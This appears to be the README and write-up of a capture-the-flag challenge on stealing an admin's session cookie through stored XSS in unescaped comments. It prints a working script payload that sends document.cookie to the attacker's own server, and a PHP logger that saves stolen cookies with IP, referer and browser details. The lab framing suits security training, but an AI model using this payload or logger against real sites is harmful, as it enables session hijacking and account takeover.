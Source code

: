 # XSS Cookie Stealer Challenge

## Description

This is a classic XSS attack. Find and exploit an XSS vulnerability to steal the admin's session ID. The admin will view this page every 10 seconds. 
Once you have their session ID, log in as admin and capture the flag.

## Prerequisites

1. Download and install phantom.js. http://phantomjs.org/download.html
1. Run the run.bat or run.sh script to continuously load the vulnerable page as admin.

## Write-Up

The index page allows you to anonymously post comments. These comments are not HTML-encoded, which means it is vulnerable to an XSS attack.
Inject some javascript that will grab the cookie and send it to your own server to save it. Example:

    <script>new Image().src="http://192.168.33.10/exploits/cookie-stealer.php?c="+document.cookie</script>
	
You will need a web service that you can pass the cookie to. Example:

    <?php
	    $cookie = $_GET['c'];
	    $date = date("j F, Y, g:i a");;
	    $referer = getenv('HTTP_REFERER');
	    $userip = getenv('REMOTE_ADDR');
	    $userbrowser = getenv('HTTP_USER_AGENT');
	    $fp = fopen('cookies.txt', 'a');
	    fwrite($fp, '***|Cookie: '.$cookie.'|Date: '.$date.'|Referer: '.$referer.'|IP: '.$userip.'|Browser: '.$userbrowser.'|***'."\n");
	    fclose($fp);
    ?>

The challenge will automatically load the page as admin, so if your script works you should get the admin's cookie.
Add the cookie to your browser, and refresh the page. If it works, you will see the flag at the top of the page.